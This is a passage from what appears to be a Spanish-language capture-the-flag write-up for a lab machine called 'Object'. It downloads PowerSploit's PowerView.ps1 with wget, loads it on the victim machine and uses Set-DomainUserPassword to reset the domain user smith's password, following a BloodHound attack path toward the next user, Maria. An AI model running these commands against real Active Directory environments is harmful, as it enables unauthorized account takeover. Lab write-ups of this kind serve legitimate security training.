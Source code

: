 ```s
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

#En la maquina victima
upload PowerView.ps1
Import-Module ./PowerView.ps1
```

para esto haremos:

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity smith -AccountPassword $SecPassword
```

![sMIT oWNED](/assets/images/Object/smith_owned.png)

El siguiente usuario a ganar segun BH es Maria:

![BloodHound 2](/assets/images/Object/bh2.png)
